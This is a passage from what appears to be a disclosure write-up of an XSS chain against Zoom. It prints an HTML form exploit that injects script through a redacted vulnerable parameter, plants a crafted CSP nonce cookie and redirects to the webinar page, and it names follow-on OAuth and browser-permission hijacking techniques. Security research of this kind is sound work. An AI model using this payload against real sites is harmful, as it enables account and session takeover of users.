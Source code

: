 (The reason we are using `https://zoom.us/webinar/register` instead of `https://zoom.us` is because we initially thought this was the only vulnerable path.  For the sake of consistency with our original exploit, we will continue to use this path)

To trigger a POST request for our entry point, we will need to use the following HTML form:
```html
<form action="https://redacted.zoom.us/vuln_endpoint" method='POST'>
<input name='vuln_parameter' value="&#x22;
'><script>
document.cookie=`_zm_csp_script_nonce=&#x22;TEST\\&#x22;' 'nonce-TEST' >alert(document.domain)// \&#x22;;path=/webinar;domain=.zoom.us;`; 
location=`https://zoom.us/webinar/register`
</script>"/>
<button>exploit</button>
</form>
```

Here is a visual of how this XSS chain works, before we start exploiting it with OAuth Dirty Dancing and Browser Permission Hijacking. It's quite detailed, so you can zoom in if you hover your mouse over the image.

<br>
<center>
<img src="/images/zoom_xss_graphic.png" >
</center>
<br>


